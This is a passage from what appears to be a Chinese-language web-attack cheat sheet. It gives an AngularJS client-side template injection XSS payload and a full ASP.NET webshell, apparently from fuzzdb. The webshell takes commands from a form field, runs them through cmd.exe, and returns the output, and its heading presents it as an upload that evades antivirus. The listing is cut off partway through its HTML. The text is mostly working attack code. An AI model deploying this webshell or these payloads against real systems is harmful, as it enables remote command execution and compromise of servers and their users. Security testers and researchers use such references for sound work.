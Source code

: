### 模板注入

您可以将一些代码放入jsfiddle以进行payload测试：

```text
<html>
<head> 
<meta charset="utf-8">
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.js"></script>
</head>
<body>
<div ng-app>
{{constructor.constructor('alert(1)')()}}
</div>
</body>
</html>
```

[http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html](http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html)

### RCE

使用WEBSHEL​​L上传（.NET）绕过AV： 这是一个示例，其中包含fuzzdb项目中的一个webshel​​l：

```text
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string executeIt(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdClick(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(executeIt(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>REALLY NICE</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="execute" OnClick="cmdClick"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
```